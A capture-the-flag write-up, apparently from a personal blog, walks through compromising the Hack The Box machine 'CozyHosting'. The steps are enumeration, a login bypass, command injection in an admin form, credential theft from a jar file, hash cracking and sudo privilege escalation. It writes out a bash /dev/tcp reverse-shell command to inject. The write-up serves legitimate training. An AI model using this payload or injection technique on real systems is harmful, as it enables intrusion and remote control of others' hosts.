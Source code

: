 ```yaml
---
layout: post
title: "HTB - CozyHosting Writeup"
categories: writeup
tags: linux easy
---
```


This writeup is meant to give an overview of the challenge's solution without spoiling too much of the key details so you can still have fun while following it !

# 1. Initial enumeration
First and foremost, as usual for any challenge we can run a simple port scan using nmap:
![](/assets/writeups/CozyHosting/Selection_063.png)

From this we can already see that the target hosts an HTTP server as well as an SSH server, which probably means that our entry point will probably be found in our browser visiting the site related to this IP; and the SSH server might be useful later once we find a login for it.

Visiting the ip from our browser redirects us to a website (dont forget to add this host in your /etc/hosts file):
![](/assets/writeups/CozyHosting/Selection_064.png)

We can quickly see that most links are pointing at the main page, except for the login page:
![](/assets/writeups/CozyHosting/Selection_065.png)

However after testing this page for SQL injections (manually or using a tool like sqlmap), this page doesn't seem vulnerable. We can thus continue our enumeration with some dir busting using gobuster:
![](/assets/writeups/CozyHosting/Selection_066.png)

This gives us a list of pages to visit, one of which seems to hold valuable information:
![](/assets/writeups/CozyHosting/Selection_046.png)

This can be used to bypass the login and access to the admin panel:
![](/assets/writeups/CozyHosting/Selection_045.png)

# 2. Foothold
We gained a first access on the site, we now need a way to execute arbitrary commands on the host.
On the adnmin page we can a function to patch hosts:
![](/assets/writeups/CozyHosting/Selection_067.png)

We can put arbitrary values in both field and then intercept the request with Burp to tinker with it in Repeater. The idea is to find some inputs that would lead to a reverse shell. A payload like this one:
```bash
bash -i >& /dev/tcp/YOUR_IP/PORT 0>&1
```
should be transformed in a way that will be executed by the request on the server. Using brackets, pipe and a proper encoding you should be able to get a reverse shell from this request!
![](/assets/writeups/CozyHosting/Selection_050.png)

However, at this point we are yet to access a user account, we can only see a home for a user named 'josh'.
A jar file is also present in /app, this file should be downloaded on our machine and extracted to inspect its content and find useful information.

![](/assets/writeups/CozyHosting/Selection_051.png)

The file application.properties contains credentials for a postegres database so we now need a way to access it as it might be our avenue to compromise a user account.

# 3. Gaining access
We can't access the database directly from our machine, however we could by setting up a tunnel from the client to our machine. This can be done using a tool such as Chisel. The tool must be downloaded and deployed on both sides:

![](/assets/writeups/CozyHosting/Selection_072.png)![](/assets/writeups/CozyHosting/Selection_073.png) 

We can then access the database from our machine:
![](/assets/writeups/CozyHosting/Selection_071.png)

the user table contains two users with a password hash for each of them. Using John the ripper or Hashcat we can easily crack the admin password which is in the rockyou list.
![](/assets/writeups/CozyHosting/Selection_059.png)

We can then use this password as well as the username retrieved earlier to connect to our target using SSH. This gives us access to our user flag !

# 4. Privilege escalation
Privilege escalation on this machine relies on a very common method, often found in easy challenges. Using 'sudo -l' you should have enough information to find which command can be exploited to get root access and open the flag in the /root directory ! (This site can help you find what you are looking for: https://gtfobins.github.io !)

Congratulations !